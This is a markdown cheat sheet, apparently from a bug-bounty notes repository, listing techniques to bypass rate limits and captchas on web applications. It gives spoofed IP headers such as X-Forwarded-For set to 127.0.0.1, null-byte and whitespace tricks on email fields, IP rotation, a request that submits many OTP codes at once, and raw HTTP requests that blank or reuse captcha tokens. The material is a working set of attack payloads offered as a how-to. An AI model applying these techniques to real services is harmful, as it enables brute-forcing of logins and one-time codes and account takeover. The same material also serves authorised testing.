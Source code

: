 #  Rate Limit

## 1 HTTP Methods
    If the request goes on GET try to change it to POST, PUT, etc.,
    If you wanna bypass the rate-limit in API's try HEAD method.
    
    
## 2 Add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Host : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1 
X-Custom-IP-Authorization: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

## 3.Using Special Characters
  ```  
    Adding Null Byte ( %0d , %2e , %09 , %20 , %0, %00, %0d%0a, %0a, %0C) at the end of the Email email=victim@gmail.com%00
    Try adding a Space Character after a Email. ( Not Encoded ) {"email":"victim@gmail.com "}
    Adding a slash(/) at the end of api endpoint can also Bypass Rate Limit. domain.com/v1/login -> domain.com/v1/login/
```
  
 
## 4. Using IP Rotate Burp Extension

    Try changing the user-agent, the cookies... anything that could be able to identify you
    If they are limiting to 10 tries per IP, every 10 tries change the IP inside the header.
    
    
## 5 Multiple values in request

    When brute-force, try passing several values in one request at once, for instance:
    phone=+17342239011&code[]=123456&code[]=654321&...&code[]=331337
    
## 6 Use different params: 
    sign-up, Sign-up, SignUp
    
------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Captcha
## Changing the request method, 

## Custom header 
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
## Remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=&_Username=daffa&_Password=test123
```

## Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

## Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]
{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

    
    
    
    
    
    


